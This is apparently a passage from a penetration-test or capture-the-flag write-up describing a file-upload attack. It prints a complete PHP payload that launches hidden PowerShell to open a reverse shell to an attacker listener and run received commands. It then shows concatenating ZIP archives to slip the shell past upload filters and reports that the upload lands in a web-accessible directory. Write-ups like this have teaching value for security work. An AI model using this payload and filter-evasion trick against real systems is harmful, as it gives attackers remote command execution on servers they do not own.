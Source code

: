 <p class="indent-paragraph">
To execute commands on the remote system, we first crafted a malicious PHP payload designed to spawn a reverse PowerShell session. This payload leverages the <code>System.Net.Sockets.TCPClient</code> class to establish a backconnect to our listener, enabling interactive command execution. More details about this technique can be found in <a href="https://int0x33.medium.com/from-php-s-hell-to-powershell-heaven-da40ce840da8" target="_blank">"From PHP (s)HELL to Powershell Heaven"</a>, which inspired the structure and behavior of our payload.
</p>

```
~$ nano shell.php

<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('IP',1234); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>

```

<p class="indent-paragraph">
To prepare a more convincing ZIP archive, we generated a harmless-looking dummy file using a simple <code>touch</code> command. This file simulates a legitimate document (e.g., <code>file.pdf</code>), helping the final archive bypass superficial upload filters that might reject standalone executable or PHP content.
</p>

```
~$ touch file.pdf

```

<p class="indent-paragraph">
Finally, both the dummy PDF and the malicious PHP shell were packaged into separate ZIP archives and concatenated into a single file. This technique is commonly used to obfuscate the payload and trick upload parsers that only inspect the first or last archive entry, increasing the likelihood of successful execution on the target.
</p>

```
~$ zip file.zip file.pdf                                           
  adding: file.pdf (stored 0%)
                                                                                               
~$ zip shell.zip shell.php                                                  
  adding: shell.php (deflated 40%)
                                                                                               
~$ cat file.zip shell.zip > revshell.zip 
```

<p class="indent-paragraph">
With the payload archive crafted, we proceeded to upload the file through the platform’s assignment submission form. After submitting the ZIP file, the server responded with a confirmation message and a direct link to the uploaded file under a predictable path, such as <code>/static/uploads/&lt;uuid&gt;/file.pdf</code><span class="codefix">.</span> This behavior is crucial, as it confirms the file was stored in a web-accessible directory, enabling direct access to the injected payload when requested via the browser.
</p>
